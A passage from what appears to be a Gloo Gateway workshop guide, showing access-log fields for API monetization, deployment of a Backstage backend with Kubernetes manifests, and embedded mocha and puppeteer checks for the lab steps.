            "request_uri": "%REQ(X-ENVOY-ORIGINAL-PATH?:PATH)%"
            "request_protocol": "%PROTOCOL%"
            "status_code": "%RESPONSE_CODE%"
            "client_address": "%DOWNSTREAM_REMOTE_ADDRESS_WITHOUT_PORT%"
            "x_forwarded_for": "%REQ(X-FORWARDED-FOR)%"
            "bytes_sent": "%BYTES_SENT%"
            "bytes_received": "%BYTES_RECEIVED%"
            "user_agent": "%REQ(USER-AGENT)%"
            "downstream_local_address": "%DOWNSTREAM_LOCAL_ADDRESS%"
            "requested_server_name": "%REQUESTED_SERVER_NAME%"
            "request_id": "%REQ(X-REQUEST-ID)%"
            "response_flags": "%RESPONSE_FLAGS%"
            "route_name": "%ROUTE_NAME%"
            "upstream_cluster": "%UPSTREAM_CLUSTER%"
            "upstream_host": "%UPSTREAM_HOST%"
            "upstream_local_address": "%UPSTREAM_LOCAL_ADDRESS%"
            "upstream_service_time": "%REQ(x-envoy-upstream-service-time)%"
            "upstream_transport_failure_reason": "%UPSTREAM_TRANSPORT_FAILURE_REASON%"
            "correlation_id": "%REQ(X-CORRELATION-ID)%"
            "extauth": "%DYNAMIC_METADATA(envoy.filters.http.ext_authz)%"
            "api_version": "%DYNAMIC_METADATA(io.solo.gloo.portal:api_version)%"
            "api_product_id": "%DYNAMIC_METADATA(io.solo.gloo.portal:api_product_id)%"
            "api_product_name": "%DYNAMIC_METADATA(io.solo.gloo.portal:api_product_name)%"
            "lifecycle_phase": "%DYNAMIC_METADATA(io.solo.gloo.portal.custom_metadata:lifecyclePhase)%"
EOF
```

After that, you can send an API call:

```shell
curl -k -H "Authorization: Bearer ${USER1_TOKEN}" "https://bookinfo.example.com/api/bookinfo/v1"
```

Now, let's check the logs of the Gateway:

```shell
kubectl --context ${CLUSTER1} -n gloo-system logs deploy/gloo-proxy-http --tail 1 | jq .
```

You should get an output similar to this:

```json,nocopy
{
  "status_code": 200,
  "upstream_host": "10.101.0.33:9080",
  "requested_server_name": "bookinfo.cluster1.o5eqmcfvebyt.instruqt.io",
  "server_name": "bookinfo.cluster1.o5eqmcfvebyt.instruqt.io",
  "upstream_service_time": null,
  "timestamp": "2024-07-03T16:31:52.178Z",
  "api_version": "v1",
  "bytes_received": 0,
  "response_duration": 4,
  "lifecycle_phase": "Deprecated",
  "response_flags": "-",
  "request_protocol": "HTTP/2",
  "correlation_id": null,
  "downstream_local_address": "127.0.0.1:8443",
  "upstream_transport_failure_reason": null,
  "x_forwarded_for": null,
  "client_address": "127.0.0.1",
  "user_agent": "curl/7.81.0",
  "upstream_cluster": "kube-svc:bookinfo-productpage-9080_bookinfo",
  "bytes_sent": 395,
  "upstream_local_address": "10.101.0.23:53740",
  "api_product_name": "BookInfo REST API",
  "request_id": "cc8ac010-2327-452a-a463-3928b7ecbcde",
  "extauth": {
    "user_id": "d1d15ca3-cbd3-4060-a1f5-2d4e22ce8ec9"
  },
  "request_command": "GET",
  "route_name": "https~bookinfo_cluster1_o5eqmcfvebyt_instruqt_io-route-2-matcher-0",
  "request_uri": "/api/bookinfo/v1",
  "api_product_id": "bookinfo"
}
```

You can see several key information you can use for monetization purpose:
- the API name
- the user identity
- the custom metadata
- and everything about the request (method, path, status)

<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;
const helpers = require('./tests/chai-exec');

describe("Monetization is working", () => {
  it('Response contains all the required monetization fields', () => {
    const response = helpers.getOutputForCommand({ command: `curl -k -H "Authorization: Bearer ${process.env.USER1_TOKEN}" https://bookinfo.example.com/api/bookinfo/v1` });
    const output = JSON.parse(helpers.getOutputForCommand({ command: `kubectl --context ${process.env.CLUSTER1} -n gloo-system logs deploy/gloo-proxy-http --tail 1` }));
    expect(output.api_product_id).to.equals("bookinfo");
  });
});
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/bookinfo/dev-portal-monetization/tests/monetization.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=150 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->


## Lab 41 - Deploy Backstage with the backend plugin <a name="lab-41---deploy-backstage-with-the-backend-plugin-"></a>

Let's deploy Backstage:

```bash
kubectl --context ${CLUSTER1} apply -f data/steps/dev-portal-backstage-backend/rbac.yaml

kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: ServiceAccount
metadata:
  name: backstage
  namespace: gloo-system
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: backstage
  namespace: gloo-system
spec:
  replicas: 1
  selector:
    matchLabels:
      app: backstage
  template:
    metadata:
      labels:
        app: backstage
    spec:
      serviceAccountName: backstage
      containers:
        - name: backstage
          image: gcr.io/solo-public/docs/portal-backstage-backend:v0.0.33
          imagePullPolicy: IfNotPresent
          ports:
            - name: http
              containerPort: 7007
          envFrom:
            - secretRef:
                name: postgres-secrets
          env:
          - name: PORTAL_DEBUG_LOGGING
            value: "true"
          - name: PORTAL_SERVER_URL
            value: "http://gateway-portal-web-server.gloo-system:8080/v1"
          - name: CLIENT_ID
            value: ${KEYCLOAK_CLIENT}
          - name: CLIENT_SECRET
            value: ${KEYCLOAK_SECRET}
          - name: SA_CLIENT_ID
            value: ${KEYCLOAK_CLIENT}
          - name: SA_CLIENT_SECRET
            value: ${KEYCLOAK_SECRET}
          - name: APP_CONFIG_backend_baseUrl
            value: https://backstage.example.com
          - name: TOKEN_ENDPOINT
            value: "${KEYCLOAK_URL}/realms/workshop/protocol/openid-connect/token"
          - name: AUTH_ENDPOINT
            value: "${KEYCLOAK_URL}/realms/workshop/protocol/openid-connect/auth"
          - name: LOGOUT_ENDPOINT
            value: "${KEYCLOAK_URL}/realms/workshop/protocol/openid-connect/logout"
          - name: NODE_TLS_REJECT_UNAUTHORIZED
            value: "0"
          - name: POSTGRES_HOST
            value: postgres
          - name: POSTGRES_PORT
            value: "5432"
          - name: PORTAL_SYNC_FREQUENCY_SECONDS
            value: "10"
---
apiVersion: v1
kind: Service
metadata:
  name: backstage
  namespace: gloo-system
spec:
  selector:
    app: backstage
  ports:
    - name: http
      port: 80
      targetPort: http
EOF

kubectl --context ${CLUSTER1} -n gloo-system rollout status deploy backstage
```

After that, you can expose Backstage through Gloo Gateway using a `HTTPRoute`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: backstage
  namespace: gloo-system
spec:
  parentRefs:
    - name: http
      namespace: gloo-system
      sectionName: https
  hostnames:
    - "backstage.example.com"
  rules:
    - backendRefs:
        - name: backstage
          port: 80
      matches:
      - path:
          type: PathPrefix
          value: /
EOF
```
Let's add the domain to our `/etc/hosts` file:

```bash
./scripts/register-domain.sh backstage.example.com ${PROXY_IP}
```

You can now access the `backstage` UI using this URL: [https://backstage.example.com](https://backstage.example.com).

<!--bash
echo -n Waiting for Backstage to finish processing APIs...
timeout -v 5m bash -c "until [[ \$(kubectl --context ${CLUSTER1} -n gloo-system logs -l app=backstage 2>/dev/null | grep \"Transformed APIs into new entities\") ]]; do
  sleep 5
  echo -n .
done
echo"
-->
<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
const puppeteer = require('puppeteer');
var chai = require('chai');
var expect = chai.expect;

describe("APIs displayed properly in backstage", function() {
  let browser;
  let html;

  // Use Mocha's 'before' hook to set up Puppeteer
  beforeEach(async function() {
    browser = await puppeteer.launch({
      headless: "new",
      slowMo: 40,
      ignoreHTTPSErrors: true,
      args: ['--no-sandbox', '--disable-setuid-sandbox'], // needed for instruqt
    });
    let page = await browser.newPage();
    await page.goto(`https://backstage.example.com/api-docs`);
    await page.waitForNetworkIdle({ options: { timeout: 1000 } });

    await page.click('button');

    await page.waitForNavigation({ waitUntil: 'networkidle0' });

    html = await page.content();
  });

  // Use Mocha's 'after' hook to close Puppeteer
  afterEach(async function() {
    await browser.close();
  });

  it("The page contains bookinfo-v1", () => {
    expect(html).to.contain("bookinfo-v1");
  });
});
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/bookinfo/dev-portal-backstage-backend/tests/backstage-apis.test.js.liquid"
timeout --signal=INT 6m mocha ./test.js --timeout 10000 --retries=250 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->


